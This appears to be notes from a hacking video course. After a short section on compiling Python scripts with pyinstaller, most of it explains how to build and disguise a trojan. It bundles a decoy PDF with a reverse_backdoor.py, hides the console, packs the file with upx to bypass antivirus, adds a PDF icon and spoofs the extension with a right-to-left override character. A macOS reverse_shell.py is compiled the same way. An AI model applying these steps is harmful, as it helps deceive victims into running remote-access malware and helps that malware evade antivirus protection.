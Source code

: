 ### Converting in binary code of OS

#### Windows

In native OS 
```batch
python.exe -m pip install pyinstaller
pyinstaller script.py --onefile
```

script will create in `dist` directory / folder, 
and run without python installation on computer.

If you make any chnages to script.py compile it again,
 don't need to prompt pop up disable by 

```
python.exe script.py --onefile --noconsole
```

#### Linux

**Video #09**
**Creating a trojan by embedding files in program code**

ON linux computer
compiling with pyinstaller.

# Make sure to run listenser.py 

```bash
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf" --onefile --noconsole reverse_backdoor.py
```


**Video #10**
**Bypassing antivirus program**

**Video #11**
**Bypassing antivirus program**

Using upx for compling in kali linux

```bash
upx reverse_backdoor.py -o malware.exe
```
here `upx` is command or tool or Package which we call and `-o` means output file name

**Video #12**
**Adding Icon for program**

Download or Create or Edit a image 
Convert image to `.ico` extension

```
wine /root/.wine/drive_c/Python2.7/Scripts/pyinstaller.exe --add-data "/root/Downloads/sample.pdf;," --onefile --noconsole  --icon  /path/icon.ico  reverse_backdoor.py
```

**Video #13**
**Spoofing File Extension**

Character: Right to Left Overwrite
> zaid.exe
> zaid-fdp.exe
> zaid-exe.pdf

Note: web browers will not work it will show zaid-fdp.exe and we trying manupilate the user
so, tried to compress and delivery the malware.

**Video 14**
**Cross-Platform Hacking**
**On OS X**

```zsh
# manual installing pip

sudo pip install pyinstaller
```

Edit reverse_shell, 
> execute command use `open file.pdf`

**Compiling using pyinstaller** 
```
# pdf.icns is icon image file icns is icon extension use for OS X.
pyinstaller --onefile --noconsole --icon pdf.icns reverse_shell.py
```

extension will not show in OS X.
